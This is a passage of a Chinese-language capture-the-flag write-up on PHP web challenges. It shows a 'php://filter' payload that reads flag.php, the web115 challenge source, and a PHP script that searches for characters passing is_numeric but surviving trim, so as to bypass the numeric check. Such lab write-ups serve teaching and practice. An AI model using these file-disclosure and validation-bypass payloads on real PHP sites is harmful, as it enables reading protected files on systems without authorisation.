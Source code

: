 `filter`没有ban

payload

```
?file=php://filter/resource=flag.php
```



### web115

```
include('flag.php');
highlight_file(__FILE__);
error_reporting(0);
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!"; 
```

`trim`

>  去除字符串首尾处的空白字符（或者其他字符）
>
>  果不指定第二个参数，**trim()** 将去除这些字符
>
>  - " " (ASCII *32* (*0x20*))，普通空格符。
>  - "\t" (ASCII *9* (*0x09*))，制表符。
>  - "\n" (ASCII *10* (*0x0A*))，换行符。
>  - "\r" (ASCII *13* (*0x0D*))，回车符。
>  - "\0" (ASCII *0* (*0x00*))，空字节符。
>  - "\x0B" (ASCII *11* (*0x0B*))，垂直制表符。

这里我们写了个脚本

```
 <?php
for($i=1;$i<=128;$i++){
    $a=chr($i).'1';
    if(trim($a)!=='1'&&is_numeric($a)){
        echo urlencode(chr($i));
        echo "\n";
    }
    
}
```
